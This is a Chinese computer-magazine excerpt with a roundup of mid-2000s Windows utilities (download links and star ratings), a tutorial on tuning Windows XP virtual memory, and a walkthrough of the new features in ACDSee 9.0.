-   下载地址: www.fav.com.cn/bbs/Announce/announce2.asp?BoardID=41&ID=96&TopicSortID=1

软件介绍: 柜子可以上锁、门窗也可以上锁，但是电脑可以锁吗？当然可以，Upasslock就是这样的一款软件。有了它，你的电脑就可以用U盘锁住了，没有该U盘的人就无法打开你的电脑，U盘插入，电脑即可开始工作，U盘拔除，电脑即进入黑屏工作，比设置密码还要安全，而且这把钥匙无论到哪里都肯定没办法复制，这样锁住电脑真的很安全方便哦。

推荐指数:★★★★☆

### 软件名称: Hide and Lock Disk Drives v2.2.391
-   简单描述: 数据隐身术
-   软件大小: 600KB
-   下载地址: http://bjcnc.101down.com/html/27990.html

软件介绍: 你有没有这样的经历，电脑中存放的一些文件不愿意被人看到，而自己往往又无能为力？如果只是隐藏起来的话，对于哪怕是稍懂电脑的人也都无济于事，其实，你完全可以利用Hide and Lock Disk Drives这款软件进行信息的保护，它可以隐藏、锁定和保护你的硬盘、软驱、USB设备等，还能利用密码保护你的私人数据，它操作简单，可以保证你的信息绝对安全。

推荐指数:★★★☆☆

### 软件名称: Hide Window Plus
-   简单描述: 程序与操作的隐藏工具
-   软件大小: 1.18MB
-   下载地址: http://www.crsky.com/soft/8771.html

软件介绍: 如果你不愿意被人知道你在电脑中的操作状况，如果你不愿意让别人看到你电脑中都运行了什么程序，那么 Hide Window Plus 这款软件就可以帮你的忙。它可以隐藏和恢复你的窗口和运行程序以及系统托盘图标，你也同样可以通过一组键盘快捷键来恢复先前隐藏的窗口。此外，他还具有关闭显示器、运行屏幕保护程序等功能，隐藏的部分全部转为后台操作，真的很实用，不过千万不要在课堂上和老师玩这样的把戏哦。

推荐指数:★★★☆☆

### 软件名称: MRU-BLASTER 1.5
-   简单描述: MRU 记录全扫光
-   软件大小: 496KB
-   下载地址: http://www.onlinedown.net/soft/24518.htm#download

软件介绍: MRU-Blaster 能侦测和清除超过3万个程序最近使用过的数据，因此，你的工作记录不会被他人看到，你不用担心别人会藉由MRU知道你最近在处理什么档案，尤其是商业机密或是其他重要数据，保密工作一定要做得很好才行。本软件可以清除残留于计算机内的使用过的数据条目、IE历史记录、程序运行等众多信息，使用方便，保证信息的较高安全性。

推荐指数:★★★☆☆

### 软件名称: Alparysoft VideoLock for Webcam 1.0 build 5737.041222
-   简单描述: 用脸蛋儿作电脑开机密码
-   软件大小: 1.25MB
-   下载地址: http://www.aspxz.com/soft/softdown.asp?softid=47816

软件介绍: 大家都知道指纹识别功能，而我们这里的这款软件是用你的漂亮脸蛋儿作为电脑的识别方式，这样，除了你恐怕没有谁可以开启你的电脑了，真的是安全、方便又好玩，而且，你不用担心，这样的人像识别功能对摄像头的要求并不高，大多数的摄像头都可以使用，用这种方式解除计算机的锁定才是引领潮流的新时尚。

推荐指数:★★★☆☆

## 七、生活一点通

### 软件名称: 理财好轻松 1.05
-   简单描述: 个人或家庭理财小管家
-   软件大小: 1.14MB
-   下载地址: http://www.nbdown.net/460/soft.aspx

软件介绍: 如今个人理财问题越来越受到重视，然而这并不是一项简单的事情，所以似乎我们要花很多心思在上面，可是面对繁重的学习和工作，真的哪里有时间来考虑它？现在有了这款中国建设银行个人自助理财软件就好多了，它是一款能够全面、方便地实现日常收支以及资产等管理的软件，用它来帮我们做理财服务可以省去大量的时间，还允许使用者据自己的财务变动情况不定期进行负债和收支情况的调整。这款软件还可以登录家庭成员，甚至可以设置密码，如此人性化的设计，用起来感觉一定很不错。

推荐指数:★★★☆☆

### 软件名称: MobileFine 230D050226
-   简单描述: 号码寻址小工具
-   软件大小: 125KB
-   下载地址: http://www.onlinedown.net/soft/8892.htm#download软件介绍:不慎把朋友的手机号码弄丢了，接到陌生来电的话你可能也不好意思直接问对方的名字，有了这个软件你就可以自己查出该号码的所在地，这就为你减少了不少的麻烦，而且这款软件美观大方，操作起来也极其容易，不仅是手机号码可以查询，国内的固定电话查询照样行。界面上的那朵漂亮的玫瑰花似乎还能引起你的美好回忆哦！

推荐指数:★★★★★

软件名称:Inksaver 2.0.5
简单描述:节省墨水的神奇装置
软件大小:4211KB
下载地址:http://www.onlinedown.net/soft/32922.htm

软件介绍:家中的打印机里面的墨水是不是感觉用得很快呢？如果有了这款 Inksaver 软件，保准你能省下不少的钱，它使用简单，只须将墨水节省百分比调整一下，就算是轻松设定完成了，而且它还支持 HP、EPSON 及 Canon 的喷墨打印机，使用非常的方便又能减少很多成本，这样才叫实用又实惠，相信一定会倍受青睐。

推荐指数:★★★☆☆

软件名称:Pentium 4 MagicSpeed
简单描述:一款能让“本本”降温的软件
软件大小:78KB
下载地址:http://www.onlinedown.net/soft/38379.htm

软件介绍:天气越来越热了，心爱的“本本”也即将要经受酷夏的考验，本来散热效果就不太理想的“本本”这下可遇到麻烦了，尽管我们的 CPU 大部分时间不必全负荷运转，但我们似乎也没办法找到可以让它适当休息的办法，而 Pentium 4 MagicSpeed 这款软件就可以让 CPU 劳逸结合，这样一来，“本本”的温度也不至于过高哦。

推荐指数:★★★☆☆

软件名称:货比多家3.21
简单描述:网络购物的辅助工具
软件大小:933KB
下载地址:http://www.onlinedown.net/soft/40895.htm

软件介绍:时下最流行的网上购物的确成为众多年轻人的最爱，尤其是那些可爱的MM们。但是东西不好好做一下比较是难以下定论的，尤其是我们看不到真实的物品，这款软件就是真正实现了网上购物的“货比多家”，这款网络购物辅助工具能帮助你更快地在多家网店查找和对比同一商品的价格和其他信息，在主要网店进行比货搜索，帮你寻找最佳购物机会。此外，还能通过购物记录，分析网上各家商店的服务质量、信誉数据等，以方便大家日后选择最佳的购物店铺来消费。

推荐指数:★★★★☆

## 八、计算机维护

软件名称:RegistryFix 6.0
简单描述:注册表维护工具软件
软件大小:1386KB
下载地址:http://www.onlinedown.net/soft/45409.htm

软件介绍:计算机系统用一段时间注册表产生垃圾了怎么办？如果不解决的话它们留在系统中很有可能会产生系统的故障，时间久了，还有可能带来更大的麻烦，我相信没有人愿意经常的重装系统，因此注册表的垃圾一定要清除，RegistryFix 就是一款非常实用的注册表清理工具，可以用来清除注册表中的垃圾，非常实用而且操作方便，尤其适合于那些新手们使用。

推荐指数:★★★★☆

### 魔镜还原

软件名称:魔镜还原2.4
简单描述:系统还原工具
软件大小:9.24MB
下载地址:http://down.banma.com/xitongyingyong/beifengongju/mo_jing_huan_yuan_3872_1.shtml

软件介绍:重装系统对许多人来说是一件很头疼的事情，但是系统出现故障，或者遇上电脑频繁的死机，真的也是没有办法的事，但是对于新手们来说，重装系统似乎是一个不小的难题，其实，这款魔镜还原软件就可以帮助我们轻松解决这一问题，有了它，不用进行系统的重装也能解决问题，轻松顺利地备份和恢复系统，效果可以说不用重装胜于重装，真的是一款非常实用的软件。

推荐指数:★★★★☆

### HijackThis 2.0.0 beta

简单描述:系统诊断高手
软件大小:1.25MB
下载地址:http://download.pchome.net/internet/browser/companions/download_15590.html

软件介绍:如果你的浏览器经常出现问题，首页被篡改、弹出广告、记录隐私等，一般都是因为某些程序出了问题，有了这款软件你就可以将它们全都缉拿归案，不论它们在哪个角落，都没有问题，而且这款软件还附有很多小的工具，非常方便实用，比如管理添加或删除列表、删除难以删除的文件等，说它是系统诊断高手一点都不夸张，查杀恶意程序真可谓是火眼金睛哦！

推荐指数:★★★☆☆

### HDDlife Pro 3.0.129

简单描述:硬盘健康的管理软件
软件大小:4211KB
下载地址:http://www.onlinedown.net/soft/40608.htm

软件介绍:它可是硬盘管理的专家，能起到很好的监控作用，实时地了解硬盘的状态，还能避免因为硬盘损坏而造成的资料丢失问题，甚至连硬盘使用的时间都可以测试出来，无论是故障预警还是防护它都做得十分出色，不但可以用于监测单个硬盘，即便是在大型的计算机网络中也丝毫没有问题，赶快行动吧，给你的硬盘请一个贴身的医生！

推荐指数:★★★☆☆

### 电脑故障一查通 2.7.0

简单描述:电脑的问题专家
软件大小:21984KB
下载地址:http://www.onlinedown.net/soft/3085.htm

软件介绍:电脑发生故障是一件很平常的事情，可如果故障一旦严重，恐怕也只有重装系统了，如果身边有一个高手在的话，那么重装系统这最后一招估计就无用武之地了，电脑故障一查通可以最大限度地减少故障的发生。它的技术水平前进，可谓是高手中的高手，同时，它的操作方式很直观，上手容易，此外，它还借助网络安排专人在线帮助排除各种电脑故障。有了它，电脑的运行速度也可以得到提升、还能挽回丢失的文件、格式化分区、查看网络信息、对磁盘进行清理等，真是电脑故障处理的好帮手，软件还分为新手、专家查询、硬件诊断等模式，你可以任意选择，不相信的话就赶快来试一下吧！

推荐指数:★★★★★

## 九、省时省力走捷径

软件名称:风行懒人工具箱 1.2.6
简单描述:繁琐的工作变简单
软件大小:5260KB
下载地址:http://www.onlinedown.net/soft/48817.htm
软件介绍:我们每天工作学习都离不开电脑，到电脑前一坐可能就是几个小时的时间，但是我们有很多操作是重复性的，浪费了很多的时间和精力，更为身体健康加重了负担，越来越多的白领阶层患上了颈椎病，而懒人工具箱软件就可以让我们的操作大大优化，而且此软件不用费心费力的安装，只要启动就可以了，它会自动隐藏在任务栏中，非常简单，用它来进行操作，我们可以节省很多的精力。

推荐指数:★★★☆☆

软件名称:TurboLaunch 5.0.10
简单描述:工具条式的桌面快速启动器
软件大小:1.9MB
下载地址:http://www.hanzify.org/?Go=Show::List&ID=9499&Down=1&L=cn
软件介绍:TurboLaunch 是一款按需设置的贴心软件，它的应用程序是一个工具条式的优化界面，使用起来极其方便，而且在使用它的同时仍然可以保持桌面的清爽，它还附带了重启机器、关机、注销等功能，在避免不必要的时间浪费之余，仍然不影响你追求大方简约的风格，用这款软件，桌面不用很花哨就可以达到你想要的效果，快来试试吧！

推荐指数:★★★☆☆

软件名称:天下！桌面秀 1.0.0.2
简单描述:快速的桌面应用程序
软件大小:2723KB
下载地址:http://www.onlinedown.net/soft/4153.htm
软件介绍:它是一款资源占用量很小的软件，但是却可以集日历、相册以及天气预报、网络电视于一身，还能很便捷地借助它进行资讯的浏览。它安装简单，操作方便，启动便捷，半透明状的精致、小巧外观得体地嵌在电脑桌面上很具视觉的感染力，而且，这款软件还支持换肤功能，你可以想怎么换就怎么换。

推荐指数:★★★☆☆

软件名称:EasyVOL 1.1
简单描述:键盘也可以作音量调节器
软件大小:300KB
下载地址:http://www.xgdown.com/SoftdownPage/Softdown_25734.htm
http://caoyiyin.08.71china.com/soft/show.asp?id=2
软件介绍:这是一款很小的软件，但是它却可以带给我们很多的方便，听音乐或者看电影时候，大概就是我们调节音量最频繁的时候吧，但是无论是调节扬声器还是桌面下方的小喇叭似乎都很麻烦，这款软件就可以让你调节音量变得特别的轻松，它让键盘就可以做到这一点，可以控制任何一个播放器的使用，键盘的设定也是完全自主的哦，快来试一下吧！

推荐指数:★★★★☆

软件名称:Web2Pic Pro 1.2.8
简单描述:网站截图好轻松
软件大小:979KB
下载地址:http://cache.baidu.com/c?word=web2pic%2Cpro&url=http%3A//www%2Eonlinedown%2Enet/soft/39864%2Ehtm&p=9157c54ad48357f317be9b784c&user=baidu
软件介绍:本软件可以直接对网页的所有内容进行截图，省时又方便。而且还能让你自己随意选择保存的格式和生成缩略图，又能对截图进行预览，批处理的操作方式更能省去不少的麻烦。

推荐指数:★★★★☆

## 十、零敲碎打

软件名称:读霸 1.31
简单描述:实时校对朗读软件
软件名称:文字输入
简单描述:语音朗读剪贴板内容
软件大小:4673KB
下载地址:http://www.onlinedown.net/soft/3591.htm

软件介绍:文字输入时，我们总是要不时地检查我们所输入的汉字、字母、数字和标点等是否正确，有了这款软件我们就可以让眼睛休假了，它可以据使用者的选择，将复制到剪裁板上的内容朗读出来。发音不但标准，还能对多音字和音调等进行智能化的处理。有了它，我们的文字输入工作不再单调乏味，不再慢吞吞，在保证输入正确的同时，还给我们带来了无穷的乐趣，工作变得不再孤单。

推荐指数:★★★☆☆

软件名称:网易桌面伴侣 1.0.428.2
简单描述:打造多种功能的全新桌面
软件大小:2.75MB
下载地址:http://download.pchome.net/system/desktop/buildup/22814.html#

软件介绍:桌面是一个很好的展示平台，也是一个快捷的搜索信息的载体，而我们往往将它淡忘了，其实桌面也可以非常丰富的，网易桌面伴侣就可以帮你打造全新的时尚桌面，它包括日程安排、搜索引擎、节目预告、天气预报等多方面的信息和操作功能，还可以借助它来设定不同铃声的闹钟，尽管内容丰富，可设定起来却十分容易，不信就来尝试一下吧！

推荐指数:★★★★☆

软件名称:FlashPoint – PowerPoint to Flash Converter 2.37
简单描述:幻灯片摇身变Flash
软件大小:2569KB
下载地址:http://www.onlinedown.net/soft/53608.htm

软件介绍:很多朋友有用PowerPoint制作电子相册的习惯，但是这样的相册真的不方便和其他的朋友来分享，FlashPoint这款软件就能将所有的幻灯片变成一个漂亮的Flash，而且制作起来十分容易。此外，它作为一个小的插件并不占用独立的空间，这样使用也更为方便。有了它，我们就可以自己做Flash相册了，还能与更多的朋友分享，好了，我们一起来做个电子相册展示吧。

推荐指数:★★★★☆

软件名称:WinKld V2.0
简单描述:系统时钟增农历
软件大小:318KB
下载地址:http://download.zol.com.cn/link/13/127741.shtml

软件介绍:你的电脑系统时钟尽管直观简洁，但是如果身边没有日历的话，查询农历似乎就成为了一个问题，WinKld 这款软件就弥补了这一点缺憾，它将阳历与阴历相结合，让你查询日期更方便，此外，它还有天气查询功能，能够为你的出行作参考。这款软件操作简单，即使没有电脑操作基础的人也可以马上轻松使用，它的自动升级功能也节省了我们自己更新的麻烦，真的是简单又实用，从此，你就不用为查农历日期和天气情况而“东奔西走”了。

推荐指数:★★☆☆☆

软件名称:会说话的IE浏览器 V5.0
简单描述:让网页会说话
软件大小:1326KB
下载地址:http://www.xing75.com/Soft/wangluo/zhuye/200610/2149.html

软件介绍:网上大量地浏览和搜集信息是一件再平常不过的事情，但是时间过长就会导致视力的疲劳，尤其是那些长篇大论的文本资料更是让人难以忍受，而会说话的浏览器给我们带来了福音。它的新型IE浏览器采用TTS语音文本转换技术，处于国际先进的水平，从此以后，我们浏览网页就如同听广播一样了，眼睛从此宣告摆脱窘境。此外，它的女中音发声可与真人媲美，听起来舒服自然。原来浏览网页也可以这么简单。

推荐指数:★★★★★

综述:如此之多的各式软件真的是风格各异，你是不是感到很过瘾呢？其实，这里所介绍的软件安只不过很小的一部分，更多的东西在等待着你去发掘。最后，笔者希望所有的奇妙软件能够为你的生活增添一些奇妙的色彩……

# 妙用“虚拟内存”加速——让系统“飞”起来！！！

文/TMG WL hf

我们日常使用计算机中，操作系统是与我们打交道最为频繁的软件，而操作系统的任务主要是合理地调配计算机各种资源，内存管理则是操作系统的主要职责之一，而作为内存管理一部分的“虚拟内存”更是直接影响着计算机整体性能的发挥。

## 一、虚拟内存——物理内存的“预备役部队”

简单而言，Windows操作系统在工作时，往往会调用大量的物理内存空间，而由于物理内存的容量有限，所以在物理内存不够用时，系统会把一部分硬盘空间代替内存使用，用虚拟内存来动态管理运行时的交换文件，这就是所谓的“虚拟内存”。不过由于硬盘的传输速度相对物理内存要慢，所以虚拟内存比物理内存效率要慢。因此，从某种意义上说：“虚拟内存是物理内存的“预备役部队”。

虽然Windows操作系统可以自动分配管理虚拟内存，但是系统分配有时并不是很合理。所以需要我们自己动手进行设置，所谓自己动手丰衣足食。

不过对于虚拟内存这支“预备役部队”的使用还是相当有讲究的。因为如果虚拟内存设置过大，容易使硬盘产生大量的磁盘碎片，严重影响系统速度，而设置得过小，会造成虚拟内存不够用，系统会经常在你使用计算机时提示虚拟内存太小，使你不胜其烦。

## 二、造成内存不足的原因

计算机的日常使用中，许多朋友会遇到“虚拟内存不足”的情况，而造成虚拟内存不足的原因很多，例如：计算机感染病毒、虚拟内存大小设置不当、系统盘空间不足、SYSTEM用户权限设置不当等，全会造成虚拟内存不足的情况，下面我们就为大家一一道来。

-   计算机感染病毒
    危害指数: ★★★★★
    解决难度: ★★★★☆
    综合评定: ★★★★☆
    现象描述: 近年来，网络的不断发展，给人们带来了便利，与此同时也为计算机病毒提供了最快速的传播途径。而一些病毒会占用大量的内存空间，从而使操作系统提示“虚拟内存不足”。
    解决方法: 用最新版本的杀毒软件进行杀毒。

-   虚拟内存大小设置不当
    危害指数: ★★★☆☆
    解决难度: ★★★☆☆
    综合评定: ★★★☆☆
    现象描述: 虚拟内存大小设置，同样会造成系统提示“虚拟内存不足”的问题，一般而言，虚拟内存大小应为物理内存大小的2倍左右，如果设置得过小，就会影响系统程序的正常运行。
    解决方法: 重新设置虚拟内存大小。

-   系统盘空间不足
    危害指数: ★★★☆☆
    解决难度: ★★★☆☆
    综合评定: ★★★☆☆
    现象描述: Windows XP操作系统默认将虚拟内存文件“pagefile.sys”设在系统盘，而由于大多数软件的默认安装路径均为系统盘，从而造成系统盘剩余空间过小，导致虚拟内存不足。
    解决方法: 将虚拟内存文件设置在其他分区。

-   因为SYSTEM用户权限设置不当
    危害指数: ★★★☆☆
    解决难度: ★★★☆☆
    综合评定: ★★★☆☆
    现象描述: 有些采用NTFS文件系统的用户，取消了SYSTEM用户在系统盘“写入”和“修改”权限，造成Windows XP等操作系统无法创建虚拟内存文件，造成运行过多或大型程序时，会出现内存不足的问题。
    解决方法: 重新设置SYSTEM用户“写入”和“修改”的权限。

## 三、追根寻源——找到Windows XP的虚拟内存

在计算机的日常使用中，这里以Windows XP操作系统为例，安装盘（一般为C盘）根目录下有一个名为“pagefile.sys”的系统文件，它的大小经常发生变动，小的时候可能只有几十兆，大的时候则有数百兆。“pagefile.sys”的大小为什么会不断地变化呢？

其实，“pagefile.sys”就是Windows XP操作系统下的虚拟内存文件。当计算机需要大量数据、占用大量内存时，内存就会被占满，将一些暂时不用的数据放到硬盘中，而这些数据所占用的硬盘空间就是虚拟内存，也就是“pagefile.sys”，而它的大小会随着系统内数据的多少随时变化。

## 四、虚拟内存——何时才能征服你？

对于 Windows 操作系统而言，虚拟内存是非常重要的，合理地设置虚拟内存，将极大地提升计算机的性能。而 Windows XP 操作系统默认为系统管理虚拟内存，但是，“盖茨先生”给我们提供的管理方式相对比较呆板，使虚拟内存页面文件不连续，降低读写效率，甚至在使用中经常出现“内存不足”提示，影响工作效率。要解决这些问题，手动设置是最好的方法。

### 1. 进入“虚拟内存”设置窗口

右键单击“我的电脑”，选择“属性”，打开“系统属性”窗口。单击“高级”选项卡，打开高级设置的对话框，单击“性能”区域的“设置”按钮（见图3）。

在“性能选项”，单击“高级”选项卡，在“虚拟内存”区域，单击“更改”按钮（见图4）。





### 2. 手动设置虚拟内存位置

由于系统分区（一般为C盘）文件众多，如果将虚拟内存设置为C盘，虚拟内存文件放在磁盘上的不同区域，而硬盘靠磁头在磁性物质上读取数据，磁头就要跳来跳去，造成虚拟内存不连续，从而降低工作效率。因此将虚拟内存设置到非系统分区的空闲空间，有利于保持虚拟内存的连续性。

进入“虚拟内存”设置窗口，首先我们要在“驱动器”栏里选择想要更改的位置，如改为“E盘”（见图5）。



> “理论技巧”
当移动好虚拟内存文件后，Windows XP 操作系统不会将原有的文件删除，所以我们要手动删除原有的虚拟内存文件，以免空间浪费。

此外，由于虚拟内存的“页面文件”(pagefile.sys)会随着操作系统的使用过程进行收缩和扩展，所以保证硬盘拥有足够的空间供给虚拟内存使用是相当必要的。

### 3. 手动设置虚拟内存大小

进入“虚拟内存”设置窗口，方法如上，选中“自定义大小”前的复选框，将具体数值填入“初始大小”、“最大值”栏，单击“设置→确定”按钮，让刚才的设置生效（见图6）。



> “理论技巧”
调整虚拟内存大小时，不要将“初始大小”、“最大值”设为等值，因为一般而言，计算机工作时，内存空间不会真正“用尽”。而当内存量到达一定额度时，系统将会把一部分暂时不用的数据交换到虚拟内存中，从而释放物理内存。

“初始大小”设置越大，所占比例越低，执行的速度也就越慢。“最大值”是极限值，打开多个程序时，内存和初始虚拟内存空间已“塞满”，就会自动溢出到最大虚拟内存空间，因此将两者设为等值是不合理的。

“初始大小”设置得相对小一点，从而使相对速度更快的物理内存尽量存储更多数据，而“最大值”设得大些，以免出现“满员”的情况，是最为合理的。

### 4. 清除虚拟内存文件

这里的“清除”页面文件不是指从硬盘上完全删除虚拟内存——pagefile.sys文件，而是对其进行“整理”，以便Windows XP下次启动时，更好地使用虚拟内存。

单击“开始”，选择“运行”，输入“regedit”，进入“注册表编辑器”（见图7）。



选择“HKEY_LOCAL_MACHINE → System → CurrentControlSet → Control → Session Manager → Memory Management”下，右键单击“ClearPageFileAtShutdown（关机时清除页面文件）”，在快捷菜单中选择“修改”，进入“编辑DWORD值”窗口，将“数值数据”改为“1”，单击“确定”（见图8）。



### 5. 虚拟内存设置多少为合理

一般情况下，定义虚拟内存，设置虚拟内存大小要取一个固定范围值，因为这样不容易使硬盘产生磁盘碎片。而由于每个人日常使用的软件不同，对虚拟内存使用率也是不同的，如：一些朋友使用3DMAX、AUTOCAD等大型软件比较多，而另一些朋友平时只是使用Word等文字处理软件，所以，我们需要因地制宜，设置更适合自己的虚拟内存值空间数值，以保证“爱机”充分发挥潜能。

下面笔者就为朋友们讲解如何为自己量身定制“虚拟内存”。

首先，按照前面讲过的方法，将虚拟内存自定义的“初始大小”、“最大值”设为两个相同的数值，如600MB，单击“设置→确定”按钮。单击“开始”菜单，选择“设置”，进入“控制面板”，选择“管理工具”（见图9）。



双击“性能”，进入“性能”窗口（见图10）。



其次，双击左侧栏中的“性能日志和警报”，右键单击“计数器日志”，在出现的快捷菜单里选择“新建日志设置”（见图11）。



弹出“新建日志设置”对话框，在“名称”一栏中填入任意名称，如“CBI虚拟内存测试”（见图12）。



进入“CBI虚拟内存测试”窗口，单击“添加计数器”按钮（见图13）。



进入“添加计数器”对话框，单击“性能对象”下拉列表，选中“Paging File”，选择“从列表中选择计数器”，并在下方的栏目中选择“%Usage Peak”，选择“从列表中选择范例”，在下方的栏目中选择“_Total”，单击“添加→关闭”（见图14）。



“性能”窗口右侧栏目中出现“CBI 虚拟内存测试”项目，右键单击该项，选择“启动”。
再次，开始运行自己平时经常使用的软件，在使用一段时间后（一般15～30分钟为佳），进入系统分区（一般为C盘），单击“搜索”，选择“所有文件和文件夹”，在“全部或部分文件名”下输入“CBI虚拟内存测试_000001.csv”，单击“搜索”按钮，找到该文件，用记事本程序打开，找到每一栏中倒数第二项的“虚拟内存的使用比率数值”，如“60”，用60%乘以前面所设定的虚拟内存数值600MB，结果等于360MB；该值就是为你量身定做的虚拟内存“初始大小”。此外，“最大值”的大小可以设置成“初始大小”的两到三倍。

> “理论技巧”
对于一般的用户而言，由于平时只是简单做一些文字处理工作，而这些工作对于虚拟内存的要求并不是很高，所以虚拟内存的数值大小可以根据物理内存大小决定，一般虚拟内存大小是物理内存的1.5～3倍。

### 6. 虚拟内存更爱双硬盘

对于普通台式机用户而言，双硬盘已经不是什么新鲜的事情，而如果你的计算机上两个硬盘速度一样快，建议你将虚拟内存平均分配在两个硬盘上，从而达到同步进行读写操作，提高 Windows XP 操作系统虚拟内存工作效率，尝试一下虚拟内存“磁盘阵列”。
例如：一台计算机，有 A、B 两块硬盘，A 盘分区为 C、E、F，B 盘分区为 D、G。手动设置600MB 虚拟空间，在 E 盘设置300MB 虚拟内存，在 D 盘设置300MB 虚拟内存，具体方法参见前面的介绍。

### 7. 提高物理内存与虚拟内存的数据交换速度

在 Windows XP 操作系统运行时，如果发生死机等致命错误，操作系统会自动将内存快照，并保存为一个文件，以便再次进入 Windows XP 操作系统后调用。不过对于一般用户而言，该项功能不仅用处不大，有时甚至会影响虚拟内存的工作效率。如何关闭这个“鸡肋”功能呢？下面我们就把这招教给大家！
右键单击“我的电脑”，选择“属性”，进入“属性”对话框，单击“高级”选项卡，单击“性能”区域的“设置”按钮，进入“性能选项”窗口，选择“高级”选项卡，在“内存使用”区域，选中“系统缓存”，单击“应用→确定”（见图15）。



> “理论技巧”
经过上面的设置，Windows XP 操作系统将把4MB 左右的物理内存作为硬盘缓存使用，从而提高物理内存和虚拟内存之间的数据交换速度。不过此方法只适用于物理内存相对充足的计算机，一般情况下以512MB 内存为宜。

### 8. 提高硬盘读写速度 加快虚拟内存读取

虚拟内存是在硬盘上建立的，那么提高硬盘的读写速度，也就提高虚拟内存读取速度。如何提高硬盘读写速度呢？
右键单击“我的电脑”，选择“属性”，单击“硬件”选项卡，在“设备管理器”区域，单击“设备管理器”按钮（见图16）。



打开“设备管理器”，双击“磁盘驱动器”，右键单击当前正在使用的硬盘，选择“属性”（见图17）。



进入“XXX 硬盘属性”窗口，单击“策略”选项卡，勾选“启用磁盘上的写入缓存”，单击“确定”（见图18）。

> “理论技巧”
经过上面的设置，可以启用写入缓存提高硬盘性能，间接提高虚拟内存读取性能。不过开启该功能后，计算机一旦突然断电，会导致数据丢失，且无法恢复。所以建议普通台式机用户不要使用该功能，不过对于笔记本电脑，或者装有 UPS 的台式机用户可以使用。



综述：好了，通过上面的讲述，相信你一定对“虚拟内存”有了深入的了解，还等什么，赶快加速爱机的“虚拟内存”，让你的系统“飞”起来吧！

# 抢先试用 ACDSee 9.0

文 / TMG zxx

2007年3月19日，ACDSee 9.0中文正式版上市。对广大图片爱好者而言，这无疑是一个福音。ACDSee作为一款流行的图像管理软件，在图片的获取、管理、浏览、优化及同他人分享方面操作便捷，优势明显，在消费者中一直享有盛誉。全球拥有数以千万计的普通消费者和超过33000家的企业消费者。ACDSee 9.0简体中文版，在原有的图片功能基础上，增加了“快速查看”、“阴影/高光”、“隐私文件夹”、“日历事件视图”、“自动类别”、“ACDSee陈列室”、“组合方式”和“过滤方式”等新功能，使广大用户可以更为方便快捷地管理图片。下面，让我们一起感受ACDSee 9.0的王者风范。

## 一、ACDSee 9.0 简易安装

ACDSee 9.0的安装过程简单易操作。双击ACDSee 9.0安装图标，出现安装向导。出现欢迎界面，单击“下一步”。在选择任务界面，选中“修改”，单击“下一步”。此时为自定义安装界面，可根据不同用户的特殊需要，单击列表中的图标以更改功能的安装方式。更改完毕后，单击“下一步”，继续安装。

单击“安装”，开始安装。最后单击“完成”，结束安装。

## 二、ACDSee 9.0 使用及新功能体验

ACDSee一如既往地延续其友好的界面风格，这次添加了新功能的9.0版本界面更加清晰明了，一目了然（见图1）。



相信大多数朋友早已熟悉ACDSee的基本操作，如对图片的查看、浏览及优化等。不熟悉其操作的朋友也勿需担心，在接下来对9.0版新功能的共同体验中，我们也将略述其基本操作，相信你一定可以领略到其强大的图片管理功能及操作便捷的优点。

下面，让我们共同进入ACDSee 9.0的新功能体验之旅。

### 1. 新功能之一：“快速查看”模式——速度才是王道

运用该模式可立即在屏幕上查看到你要查看的图片。新的“快速查看”模式可以更快地让你翻转、放大、缩小图片，你更可以按全屏模式，放大浏览你的图片。

该模式使ACDSee 9.0这个功能强大的查看工具查看图片更加快速、简便，该模式缩减到只包含基本的查看与浏览功能。显示图片的速度前所未有。由于该功能的主要优势体现在未直接启动该软件时，故在此不举例了。

### 2. 新功能之二：“阴影/高光”工具——让照片重获新生

ACDSee作为一款图像管理软件，对图像有着强大的管理和编辑功能。在其原有的图片编辑功能基础上，新增加的“阴影/高光”工具可以即时、简便、有效地自动修正曝光效果不佳的相片。如图2。



在图1界面窗口双击打开一幅图片（图2），发现本幅图片颜色暗淡，效果不如人意。此时可单击该窗口左侧面板中的“阴影/高光”工具（图3）。



图3为“阴影/高光”工具的处理窗口。调整该窗口右部分编辑面板中的亮度值/暗度值（使用微调按钮或单击伸缩条）来更改其明暗效果。单击“完成”即可完成修改。可保存改后图片。图3左部分面板图片为更改后的效果。可以发现其颜色明亮，整体效果比之前明显优秀许多。类此，运用该工具可以使许多本应删除的图片重获新生。

注意：不熟悉ACDSee软件的朋友可在此注意一下，图2为该软件处理图片的基本界面，可在此对图片进行优化及处理。具体方式类比上述“阴影/高光”工具的处理方式。

### 3. 新功能之三：“隐私文件夹”——隐私保护专家

ACDSee 9.0版本突出优点之一即“隐私文件夹”功能。运用该功能，可以将不想分享他人或具有某些特殊意义的图片“锁”进本文件夹，通过密码进行访问，极大地增强用户对图片安全性和隐私性的要求。

如果之前并未使用过隐私文件夹，使用本功能前，你需先建立一个隐私文件夹。创建过程十分简便。只需在界面窗口的“隐私文件夹”面板（见图4）中右击鼠标，在弹出对话框中单击“创建隐私文件夹”即可。



注意：创建隐私文件夹需设密码，密码设定随你喜好，注意需要少于40个字符，且务必牢记密码，忘记密码将无法打开该文件夹。

你也可以将隐私文件夹中的图片从中移除，其操作方式同将其移入类似。单击菜单栏的“文件”菜单，单击“从隐私文件夹还原”选项即可。需要注意，将图片移入隐私文件夹时，相关的信息已从数据库中删除，因此还原该图片时，并不能还原以前同其他文件之间的关系信息，如你想保留类似的信息，在将其移入隐私文件夹前要预先做备份。

此外，细心的朋友可能注意到，图4及图1界面窗口左部分的面板并不完全相同，这是由于该处面板的显示可由你个人设定。具体操作即在该窗口菜单栏单击“视图”菜单，选中你需要的选项，该面板即可显示。

通过上述简介，相信你应该可以了解“隐私文件夹”的功能及具体使用，体验其“隐私保护专家”的专业性。

### 4. 新功能之四：“日历事件”视图——整理生活好帮手

“日历事件”视图功能是ACDSee 9.0版的一款贴心设计。可以根据图片的拍摄日期来进行自动分类，也可以给每个事件指定独特的描述信息来进行个性化，如“旅行”或“朋友PARTY”等。

本功能提供了四种不同的功能，即年份视图、月份视图（见图5）、日期视图、事件视图，在此可以根据不同年份、月份、日期来选择不同的文件，也可以通过不同的事件内容的描述来选择文件。即使你对图片的整理更加清晰，也使寻找变得简易，是名副其实整理生活的好帮手。



### 5. 新功能之五：“自动类别”——真正的“方便易分类，快捷易搜索”

如果说上述的“日历”视图功能是让你进行个性化整理，方便管理，那么，现在要说的“自动类别”功能则彻底省去了整理图片的繁琐。该功能可进行自动分类，当从设备“获取相片”时，ACDSee Photo Manager都会立即根据EXIF相机信息、IPTC数据、ACD数据库信息以及文件属性自动将相片放入一些方便整理的类别。可以通过选择这些属性从纷繁众多的图片中轻易地找到你所需要的图片。真正的“方便易分类，快捷易搜索”，让你付出更少的劳动获得更多的时间来分享你的图片。

